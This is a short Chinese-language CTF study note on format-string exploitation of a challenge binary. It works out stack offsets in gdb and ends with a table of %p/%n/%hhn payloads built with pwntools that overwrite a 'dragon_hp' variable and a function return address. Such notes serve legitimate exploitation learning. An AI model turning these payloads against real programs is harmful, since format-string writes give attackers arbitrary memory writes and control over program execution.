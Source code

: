 1. 可以一次泄露多个目标值
   sla('Now answer me, will you v me 50\n','aaaaaaa,%11$p,%17$p')

2. 计算偏移值

```sh
format_level1 为例，
b*0x0x8049684 \n r, 输入3
► 0x8049684 <talk+81>     call   read@plt

gdb$ ni
输入 aaaabaaacaaadaaa

   0x8049684 <talk+81>     call   read@plt
► 0x8049689 <talk+86>     add    esp, 0x10

gdb$ stack
00:0000│   esp 0xffffd320 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数1: 格式化字符
01:0004│ 1     0xffffd324 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数2: 地址, 从这里数
02:0008│ 2     0xffffd328 ◂— 0x10
03:000c│ 3     0xffffd32c —▸ 0x8049643 (talk+16) ◂— add ebx, 0x2975
04:0010│ 4     0xffffd330 —▸ 0xf7fa4620 (_IO_2_1_stdin_) ◂— 0xfbad208b
05:0014│ 5     0xffffd334 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */
06:0018│ 6     0xffffd338 —▸ 0xffffd354 —▸ 0x804bfb8 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bec0 (_DYNAMIC) ◂— 0x1
07:001c│ 7 eax 0xffffd33c ◂— 'aaaabaaacaaadaaa'               ; 为第7个
08:0020│     0xffffd340 ◂— 'baaacaaadaaa'
gdb$ fmtarg 0xffffd33c  -> 7 ("\%6$p") 也是7
```

测试值

| payload                                          | value                   | Desc                                                      |
| ------------------------------------------------ | ----------------------- | --------------------------------------------------------- |
| `b'%8$p'`                                        | 输入 8 偏移的地址       |                                                           |
| `b'%8$n' + p32(dragon_hp)`                       | -1                      |                                                           |
| `b'c%9$naaa' + p32(dragon_hp)`                   | 0                       | 这时栈中 第 7 个: `c%9$` 第 8 个 `naaa` 第 9 个 dragon_hp |
| `b'%128c%10$nbb' + p32(dragon_hp+3)`             | dragon_hp+3 设置为 0x80 | `bb`是填充 4 字节对齐, 用`aa`或者其他都行                 |
| `p32(dragon_hp) + b'%7\$n'`                      | 0x3                     | 正常可能是 4,前面 4 个字节                                |
| `p32(dragon_hp) + b'%15c%7\$n'`                  | 0x12 = 15+3             |                                                           |
| `b"%23p%10$hhn".ljust(12, b'a') + p32(func_ret)` |                         | func_ret 修改为 23 -> 0x17 , 用 c 和用 p 效果一样         |
